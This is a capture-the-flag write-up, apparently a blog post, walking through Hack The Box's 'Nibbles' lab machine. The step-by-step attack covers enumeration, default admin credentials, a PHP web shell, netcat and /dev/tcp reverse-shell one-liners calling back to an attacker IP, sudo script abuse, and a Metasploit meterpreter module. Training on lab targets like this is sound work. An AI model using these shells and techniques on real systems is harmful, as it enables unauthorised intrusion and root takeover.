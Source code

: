 ```yaml
---
layout: post
title: "Nibbles – Hack The Box"
categories: htb
date: 2025-07-12
---
```


## 🧠 Summary

Hack The Box's *Nibbles* is an easy Linux box focused on **web enumeration**, **file upload exploitation**, and **privilege escalation** via **sudo misconfiguration**. We exploit a vulnerable web app to get a reverse shell, then escalate to root through a script that can be executed with sudo.

## 🔍 Tools Used

- Nmap  
- Gobuster  
- Curl  
- Netcat  
- LinEnum  
- Python (TTY upgrade)  
- Metasploit (optional method)

## 🖼️ Screenshots Used

1. Nmap scan result  
2. Gobuster output  
3. Upload directory (monitor.sh)  
4. Successful reverse shell (listener)  
5. LinEnum findings  
6. Root shell  
7. Flags (user.txt & root.txt)

---

## 🛰️ 1. Nmap Scan

```bash
nmap -sC -sV -oN nibbles_nmap.txt 10.10.10.75
```
Result:
22/tcp: OpenSSH
80/tcp: Apache
Web title: Nibbles
📸 Add Screenshot 1: Nmap scan result

## 🌐 2. Web Enumeration
🔍 Gobuster Directory Scan
```bash
gobuster dir -u [http://10.10.10.75](http://10.10.10.75) -w /usr/share/wordlists/dirb/common.txt -x php,txt -t 40
```
Interesting Results:
```bash
/nibbleblog/
/nibbleblog/admin.php
```
📸 Add Screenshot 2: Gobuster results showing /nibbleblog/

##🔑 3. CMS Login
Try default credentials:

```Plaintext
Username: admin
Password: nibbles
Login at: http://10.10.10.75/nibbleblog/admin.php
```
📸 Add Screenshot 3: Admin dashboard of Nibbleblog

##💉 4. Upload Reverse Shell
Go to: Settings → My Blog → Plugins → My Image
Upload a PHP reverse shell (disguised as image and renamed in intercept).

Example shell (if allowed):

```PHP
<?php system($_GET['cmd']); ?>
```
Or create a shell like this:
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <your-ip> 4444 > /tmp/f
```
Start a listener on a different terminal:
```bash
nc -lvnp 4444
```
Then trigger the uploaded shell in the browser or through command injection.
📸 Add Screenshot 4: Shell callback / Listener active

##⚙️ 5. Shell to TTY
Stabilize the shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

##🧪 6. Enumeration
Upload and run LinEnum:
```bash
upload LinEnum.sh /tmp/LinEnum.sh
chmod +x /tmp/LinEnum.sh
/tmp/LinEnum.sh
```
📸 Add Screenshot 5: LinEnum output showing sudo access

##🔓 7. Privilege Escalation
From LinEnum output:
```bash
User nibbler may run the following command:
  (ALL : ALL) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Append a reverse shell command to monitor.sh or modify it:
```bash
echo 'bash -i >& /dev/tcp/<your-ip>/4445 0>&1' >> /home/nibbler/personal/stuff/monitor.sh
```
Then:
```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```
📸 Add Screenshot 6: Root shell with id

##🚩 8. Flags
👤 User Flag:
```bash
cat /home/nibbler/user.txt
```
👑 Root Flag:
```bash
cat /root/root.txt
```
📸 Add Screenshot 7: Both flags

##⚙️ Optional Method: Using Metasploit
This box has a Metasploit module available.
🔍 Search and Use
```bash
msfconsole
search nibbleblog
use exploit/multi/http/nibbleblog_file_upload
```
🔧 Set Options
```bash
set RHOSTS 10.10.10.75
set TARGETURI /nibbleblog
set USERNAME admin
set PASSWORD nibbles
set LHOST <your-ip>
set LPORT 4444
set PAYLOAD php/meterpreter/reverse_tcp
exploit
```
This automates the shell upload and trigger steps.
Once meterpreter opens:
```bash
getuid
sysinfo
```
Continue steps to gain flags...

✅ Summary
| Step                | Technique                                |
|---------------------|------------------------------------------|
| Initial Foothold    | Web enum → Upload PHP shell in Nibbleblog |
| Credentials         | Default: admin:nibbles                   |
| Reverse Shell       | Netcat listener + bash shell             |
| Privilege Escalation| Sudo on monitor.sh script                |
| Root Access         | Reverse shell command in script          |
| Metasploit Option   | `nibbleblog_file_upload` module          |


